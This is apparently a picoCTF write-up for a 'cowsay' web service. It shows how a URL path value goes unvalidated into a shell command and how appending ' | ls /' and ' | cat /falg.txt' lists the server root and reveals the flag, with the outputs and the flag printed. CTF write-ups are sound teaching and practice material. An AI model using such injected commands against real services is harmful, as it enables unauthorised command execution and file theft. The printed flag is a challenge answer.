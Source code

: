 # Lesson
- `cowsay`  
    joke tool.  
    https://en.wikipedia.org/wiki/Cowsay

# Writeup
1. check a backgroud code which is provided  
    simple code.  
    A value on URL is passed to somewhere without any validation check.
2. guess an intenal flow around `cowsay`  
    I guess that the input parameter on URL is directly to shell command.  
    Therefore, I add " | ls /" as a test.  
    ```
    # https://caas.mars.picoctf.net/cowsay/aaaaaa
    ________
    < aaaaaa >
    --------
            \   ^__^
            \  (oo)\_______
                (__)\       )\/\
                    ||----w |
                    ||     ||

    # https://caas.mars.picoctf.net/cowsay/aaaaaa | ls /
    (https://caas.mars.picoctf.net/cowsay/aaaaaa%20%7C%20ls%20/)

    Dockerfile
    falg.txt
    index.js
    node_modules
    package.json
    public
    yarn.lock

    # https://caas.mars.picoctf.net/cowsay/aaaaaa | cat /falg.txt
    (https://caas.mars.picoctf.net/cowsay/aaaaaa%20%7C%20cat%20falg.txt)

    picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
    ```